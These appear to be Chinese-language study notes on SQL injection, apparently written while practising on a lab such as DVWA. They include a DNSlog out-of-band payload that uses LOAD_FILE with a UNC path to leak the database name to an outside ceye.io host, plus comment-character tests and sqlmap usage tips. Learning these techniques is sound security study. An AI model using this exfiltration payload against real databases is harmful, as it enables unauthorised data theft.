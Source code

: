 注意：  
1. 每次最多取63字节  
2. DNSlog网址前的 . 必不可少
3. `show variables like '%secure%';`查看load_file()可以读取的磁盘。

前置知识——UNC路径:
1. windows的命名惯例，可以依靠添加“`\\\\`”来引发DNS解析，`\\\\`转义后就是`\\`

示例命令：
```
?id=-1')) union SELECT LOAD_FILE(CONCAT('\\\\',(SELECT HEX(database())),'.m8rwsy.ceye.io\\abc')),2,3--+
```
- LOAD_FILE：关键命令，读取文件内容
- CONCAT：连接字符串
- `.m8rwsy.ceye.io\\abc`:指定的DNSlog网址
----
# 测试注释符
?id=11#1 回显admin3,说明注释符都能用 
?id=11--+1 回显admin3

----
# order by
有order by作为后端的SQL语句时，union不可用
## sqlmap
^sqlmap


![sqlmap](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/sqlmap.png)
## 补充
- 如果需要验证登录如302重定向，需要--cookie后接cookie来进行登录
- 如果url中有多个参数，用`-p`来指定参数如 `-p id`就是指定id参数
[[DVWA#^d5e614|sqlmap应用]]